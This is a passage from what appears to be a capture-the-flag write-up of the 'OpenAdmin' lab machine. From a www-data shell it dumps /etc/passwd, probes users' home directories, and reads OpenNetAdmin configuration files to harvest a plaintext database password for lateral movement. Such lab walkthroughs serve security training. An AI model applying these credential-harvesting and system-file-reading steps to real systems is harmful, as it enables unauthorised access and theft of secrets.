 ```
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash

```
We see two other system users: Jimmy and Joanna. 

```
ww-data@openadmin:/home$ cd /home/jimmy
cd /home/jimmy
bash: cd: /home/jimmy: Permission denied

www-data@openadmin:/home$ cd /home/joanna
cd /home/joanna
bash: cd: /home/joanna: Permission denied
```
Unfortunately, we do not permission to access these home directories. So it looks like we are going to have to perform some lateral movement. 


**LATERAL MOVEMENT**

The first idea that pops up when exploiting a box that has any sort of web service. Is to find the config files.
So going back to **/var/www**, we begin exploring the ona directory.

Reading the *config.inc.php* file in the **/config** directory we get:
```
www-data@openadmin:/var/www/ona/config$ cat config.inc.php
cat config.inc.php
<?php

///////////////////////   WARNING   /////////////////////////////
//           This is the site configuration file.              //
//                                                             //
//      It is not intended that this file be edited.  Any      //
//      user configurations should be in the local config or   //
//      in the database table sys_config                       //
//                                                             //
/////////////////////////////////////////////////////////////////

```  
Reading the warning banner, we immediately learn that any user configurations would be in the local config. We should check it out to find potential credentials. 

```
www-data@openadmin:/var/www/ona/local/config$ cat database_settings.inc.php
cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
```